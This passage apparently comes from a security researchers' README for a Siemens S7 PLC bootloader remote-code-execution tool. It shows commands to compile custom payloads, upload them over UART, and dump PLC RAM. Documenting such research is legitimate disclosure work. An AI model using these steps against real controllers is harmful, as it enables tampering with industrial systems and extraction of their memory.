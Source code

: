 
### DEMO 3: Running the Greetings From PLC in an infinite loop

We have alternate version of `hello_world` which the PLC instead of sending a single string `TEST` back to the client utility, it will send string `Gretings from PLC` in an infinite loop to the client utility.  This payload is located inside `uart_rce/payloads/hello_loop/`. Since this payload is written in C, you need to compile it using make command: 


```console
research@ali-Plex-9:~/SiemensS7-Bootloader/uart_rce/payloads/hello_loop$ make
cc hello_loop.c
cc ../lib/stdlib.c
cc ../lib/print.c
cc ../lib/string.c
cc ../lib/read.c
ld hello_loop.sym
strip hello_loop
objcopy hello_loop.ihex
objcopy hello_loop.bin
```

This will generate `hello_loop.bin` file, which will be used by our client utility and will be uploaded to the PLC to get executed. Now we can send the payload to the PLC using tictactoe mode with different payload:


```console
research@ali-Plex-9:~/SiemensS7-Bootloader/uart_rce$ sh client.sh --switch-power --powersupply-delay=1 tictactoe --payload=payloads/hello_loop/build/hello_loop.bin
```



### DEMO 4: Dumping S7 PLC RAM

To dump the PLC memory, we would recommend to first turn on the PLC for few seconds, to let the PLC copy contents of the NAND flash to the RAM (alternatively you can wait as long as you want!). We specially designed `--powersupply-delay` argument in our utility for this purpose. We use dump mode in our utility followed by `-a` argument which user supplies address to dump and `-l` argument for the byte size. 

Similar to other demos we need to first compile our payload:

```console
research@ali-Plex-9:~/SiemensS7-Bootloader/uart_rce/payloads/dump_mem$ make
cc dump_mem.c
cc ../lib/stdlib.c
cc ../lib/print.c
cc ../lib/string.c
cc ../lib/read.c
ld dump_mem.sym
strip dump_mem
objcopy dump_mem.ihex
objcopy dump_mem.bin
```
